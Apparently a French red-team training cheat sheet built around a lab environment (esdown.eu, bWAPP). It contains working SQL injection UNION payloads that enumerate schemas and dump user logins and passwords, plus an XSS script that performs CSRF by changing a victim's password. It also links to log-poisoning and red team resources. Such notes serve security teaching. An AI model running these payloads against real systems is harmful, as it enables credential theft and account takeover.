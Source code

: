# TRICKS




**Exercice : (Depuis la kali en réseau interne virtuel)**  
  
ping esdown.eu  
PING esdown.eu (172.16.10.10) 56(84) bytes of data.  
64 bytes from 172.16.10.10 (172.16.10.10): icmp_seq=1 ttl=63 time=2.54 ms  
64 bytes from 172.16.10.10 (172.16.10.10): icmp_seq=2 ttl=63 time=0.668 ms  
64 bytes from 172.16.10.10 (172.16.10.10): icmp_seq=3 ttl=63 time=0.612 ms  
  
Sinon DC pas allumé ou VM web a un problème  
  
**DEMO SQLinjection**  
  
' UNION SELECT null,database(),null,null,null,null,null# <= Enum BDD  
  
' UNION SELECT null,null,table_schema,table_name,null,null,null FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' # <= ENUM TABLE  
  
' UNION SELECT null,null,table_schema,table_name,column_name,null,null FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' # <= ENUM COLUMNS  
  
' UNION SELECT null,null,login,email,password,null,null FROM users# <= WIN !  
  
  
**LFI to RCE (Log Poisoning)**  
[https://www.hackingarticles.in/apache-log-poisoning-through-lfi/](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)  
  
**Exemple CSRF (via XSS)**  
<script>  
var xhr = new XMLHttpRequest();  
xhr.open("GET", "[http://bwapp.esdown.eu/csrf_1.php?password_new=toor&password_conf=toor&action=change&quot](http://bwapp.esdown.eu/csrf_1.php?password_new=toor&password_conf=toor&action=change&quot););  
xhr.send();  
</script>  
  
**Desobfusquer du PHP**  
unphp.net


[https://twitter.com/K_lfaa](https://twitter.com/K_lfaa)







Formation redteam  
  
**CRTO**   
[https://v3ded.github.io/misc/certified-red-team-operator-crto-review](https://v3ded.github.io/misc/certified-red-team-operator-crto-review)  
  
**Outils hacking**  
[https://lab401.com/fr](https://lab401.com/fr)  
  